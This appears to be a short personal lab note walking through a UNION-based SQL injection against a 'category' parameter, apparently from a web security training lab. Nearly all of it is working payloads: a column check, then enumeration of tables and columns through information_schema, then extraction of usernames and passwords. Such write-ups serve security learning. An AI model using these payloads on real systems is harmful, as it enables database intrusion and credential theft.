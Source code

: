 ```yaml
---
dg-publish: true
---
```







- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

```Plain
'+UNION+SELECT+'abc','def'--
```

- Use the following payload to retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
- Use the following payload to display the table of usernames and passwords (replace the table names and users_abcdef)
    - `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
    - `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`